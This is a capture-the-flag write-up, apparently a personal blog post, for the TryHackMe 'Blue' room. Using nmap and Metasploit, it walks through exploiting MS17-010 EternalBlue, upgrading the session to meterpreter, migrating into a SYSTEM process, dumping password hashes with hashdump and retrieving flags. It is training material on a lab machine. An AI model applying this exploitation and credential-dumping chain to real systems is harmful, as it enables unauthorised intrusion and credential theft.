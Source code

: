 ```yaml
---
title: "BLUE"
date: 2021-08-28 
img_path: ../../assets/img/Posts/Blue
categories: [Tryhackme, Easy]
tags: [metasploit, eternal blue, nmap]     # TAG names should always be lowercase
---
```


> This was my first write-up which I posted on [Medium](https://medium.com/@YrnCollo/tryhackme-blue-4aff45201ca9) on **Aug 28, 2021**

Hello Everyone!
I’m Collins, a security researcher. This is an article on how to exploit blue a machine on [TryHackMe](https://tryhackme.com/dashboard) made by [DarkStar7471](https://tryhackme.com/p/DarkStar7471).
![image](001.png)_Title page_
## DEPLOYING THE MACHINE
To connect to TryHackMe you will need to download the `OpenVpn` and connect to their VPN. Once connected to their VPN start the machine and we are ready to exploit it. Once you have deployed the machine you would be given an IP address and one hour time (but you can add one hour) as shown in the figure bellow.
![starting machine](002.png)_fig 1.0_
## TASK 1: RECON

We shall start our recon by scanning the machine. The command we shall use is `nmap -sV -A <TARGET_IP>`

![nmap](003.png)_fig 2.0_

We can manually count the number of ports under 1000 on our nmap scan which is 3.

To know what is this machine vulnerable to we shall run `nmap <TARGET_IP>-script vuln` and the result should like as figure 3.0

![fig 3](004.jpeg)_fig 3.0_

As we can clearly see the target is vulnerable to ms17–010

## TASK 2: GAINING ACCESS

Now the fun part is here where we shall gain full access to our target.

The first thing to do is to launch `Metasploit`. This is done by writing `msfconsole` to the terminal as in figure 4.0

![fig 4](005.png)_fig 4.0_

Now we shall use the search feature to search for `ms17_010_` which we had earlier found that the target is vulnerable to. The full path of the exploit as found on the search is `exploit/windows/smb/ms17_010_eternalblue` as shown in the figure 5.0

![fig 5](006.png)_fig 5.0_

Use the show options and see what is required.Set `RHOST` to your target IP.(shown in figure 6.0)
![fig 6](007.png)_fig 6.0_

With that done, run the exploit… 

![fig 6.1](008.png)_fig 6.1_

We have to background the shell by `CTRL + Z` or by typing `background`.

![fig 6.2](009.png)_fig 6.2_

## TASK 3: ESCALATE

Alright, it’s now time to upgrade our shell to meterpreter. We shall find our upgrade module by searching for `shell_to_meterpreter` as shown in figure 7.1

![fig 7.0](010.png)_fig 7.0_

Select the `post/multi/manage/shell_to_meterpreter` by the use of `use` command as in figure 7.1

![fig 7.1](011.png)_fig 7.1_

Set `LHOST <Your_IP>`

![fig 7.2](012.png)_fig 7.2_

We use `sessions -i` command to see the current session

![fig 7.3](013.png)_fig 7.3_

We shall use the `run` command to get the meterpreter shell.

![fig](014.png)

Once again use the sessions -i command to see the current session and you’ll notice we have meterpreter shell as in figure 7.4

![fig 7.4](015.png)_fig 7.4_

Now we shall use `set SESSION 2` and start interaction with it.

![fig](016.png)_fig 7.5_

Since we have already connected through a meterpreter session to the target machine we can escalate privileges by the using the command getsystem. Use the `shell` command and run `whoami` then background the session.

![fig](017.png)

List all the process by the command `ps` and migrate to a process that is running at NT AUTHORITY\SYSTEM
To migrate we can use `migrate -N (name_of_the_process)` OR `migrate -P (process_ID)`

![fig](018.png)

## TASK 4: CRACKING

With our elevated meterpreter shell, run the command `hashdump` which will dump all of the passwords on the machine as long as we have the correct privileges.

![hashdamp](019.jpeg)

## TASK 5: FINDING FLAGS

**FLAG 1**

Flag one is located on the root of the machine in which is `C:/`

cat flag1.txt

![flag 1](020.png)_flag 1_

**FLAG 2**

We shall search for sam location on windows which is `C:\Windows\System32\config`

cat flag2.txt

![flag 2](021.png)_flag 2_

**FLAG 3**

We shall use the search function to search for flag3
```
search -f flag*.txt
cat c:\\Users\\Jon\\Documents\\flag3.txt
```
\#THANKS
